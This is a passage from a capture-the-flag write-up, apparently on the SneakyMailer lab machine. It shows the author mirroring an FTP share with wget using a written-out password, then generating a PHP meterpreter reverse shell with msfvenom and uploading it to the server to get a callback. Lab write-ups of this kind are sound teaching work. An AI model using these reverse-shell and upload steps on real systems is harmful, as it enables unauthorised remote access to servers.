 ### Access to FTP

Now that we had authenticated access to the FTP service, I decided to retrieve the contents of the directory in order to enumerate any potentially useful information from the server. In order to retrieve the contents of the FTP server, I made use of the following command:

```bat
wget -r --user="developer" --password="m^AsY7vTKVT+dV1{WOU%@NaHk
```

<details></details>


After retrieving the contents of the folder, I didn't find anything particularly useful, so instead I decided to try and upload a PHP reverse shell. I initially tried to make use of the basic web shell, however I never managed to get it working since there was a cron job deleting any additional files from the server. Instead, I created a php reverse shell using the following commands from [Netsec](https://netsec.ws/?p=331): 

```bat
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

```

Once I had my payload generated, I uploaded the file to the FTP server using the `PUT` command as shown below:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/SneakyMailer/img6.png"  style="width: 75%" />
</p>
